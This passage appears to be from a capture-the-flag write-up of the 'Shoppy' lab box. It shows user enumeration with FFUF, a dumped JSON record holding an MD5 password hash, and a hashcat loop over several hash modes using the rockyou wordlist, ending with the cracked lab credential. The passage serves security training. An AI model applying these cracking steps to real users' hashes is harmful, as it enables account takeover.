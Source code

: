 Fond you my little bastard! Say hello to `Josh`

> I've been incredibly fortunate here; I didn't set an `-ac` parameter on `FFUF`, so I got a lot of 500s that I was able to filter out. Had `josh` returned a 500, I would have missed it! 🍀

Getting Josh's `json`:

```json
[
  {
    "_id":"62db0e93d6d6a999a66ee67b",
    "username":"josh",
    "password":"6ebcea65320589ca4f2f1ce039975995"
  }
]
```

And back to `Hashcat` that don't really guess the hash type neither:

```plain
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

Re-using the same script and grabbing a coffee ☕️

```bash
for i in 900 0 70 2600 3500 4400 20900 4300 1000 9900 8600; do
	echo $i && hashcat "6ebcea65320589ca4f2f1ce039975995" -m $i -O /usr/share/wordlists/rockyou.txt | grep "Recovered"
done
```

This time we get a hit! It's a MD5

```bash
hashcat "6ebcea65320589ca4f2f1ce039975995" -m 0 -O /usr/share/wordlists/rockyou.txt | grep "Recovered" --show
```

Got you Josh! `josh:remembermethisway`  

![Full-width image](/assets/img/box/shoppy/mattermost.png){:.lead width="800" height="100" loading="lazy"}
